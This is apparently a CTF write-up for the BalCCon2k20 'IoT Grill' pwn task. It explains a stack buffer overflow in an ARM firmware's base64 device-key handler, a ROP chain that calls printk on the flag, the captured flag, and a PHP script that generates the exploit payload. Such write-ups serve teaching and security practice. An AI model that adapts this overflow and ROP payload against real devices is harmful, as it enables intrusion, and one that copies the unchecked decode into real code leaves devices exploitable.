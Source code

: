 # IoT Grill - BalCCon2k20 CTF (pwn, 497p, 1 solved)
## Introduction

IoT Grill is a pwn task.

An archive containing an ARM firmware and a qemu script to run it is provided.

The fimrware simulates a connected grill. It is possible to change the
temperature settings, start the grill and update the device key.

## Reverse engineering

Reversing an ARM firmware can be time consuming.

Fortunately, looking at cross references to strings such as `Device key` helps
find the menu function. It also helps identify the `printk` function.

By looking at the cross references it is possible to identify the main function.

The `Poweroff` menu option leaves the function.

The `Grill Cevape` menu option prints a string.

The `Change temperature setting` changes the temperature between 50 and 500
degrees.

The `Update device key` updates the device key. There is special case if the key
starts with `B64:` : it will decode the input as base64.

```c
char  *string;
size_t size;
size_t clearSize;
char   buffer[0x24];

printk("Enter a new device key> ");
string = readString();
size   = strlen(string);

if(0 == strncmp(string, "B64:", 4)) {
	/* Don't write, but calculate the size and write in in clearSize */
	b64_decode(NULL, 0, &clearSize, string + 4, size - 4);

	/* Decode into buffer */
	b64_decode(buffer, clearSize, &clearSize, string + 4, size - 4);
} else {
	/* ... */
}
```

This function is vulnerable to a classic stack-based buffer overflow.

## Exploitation

This challenge was solved by using a simple ROP chain that calls `printk(flag)`.

The ROP chain is the following :
```
0x00001458: pop {r0, pc}
0x00004043: "BCTF{flag}"

0x00002CB0: printk
```

The only particularity of the ARM architecture is that instructions in THUMBS
mode must have their least significant bit set.

The `changeKey` function returns using `pop {r4, r5, r6, r7, pc}`. This has to
be taken into account when padding the stack.


**Flag**: `BCTF{c0ngr4ts_y0u_put_a_gr1ll_on_th3_n3t_and_n0w_cevap3_ar3_burn3d}`

## Appendices
### pwn.php

```php
<?php
const POPR0   = 0x00001458 | 1;
const FLAG    = 0x00004043;
const PRINTK  = 0x00002CB0 | 1;

$payload  = str_repeat("A", 0x24);
$payload .= pack("V*",
	0x44444444, 0x55555555, 0x66666666, 0x77777777,
	POPR0, FLAG,
	PRINTK,
);

printf("B64:%s\n", base64_encode($payload));
```
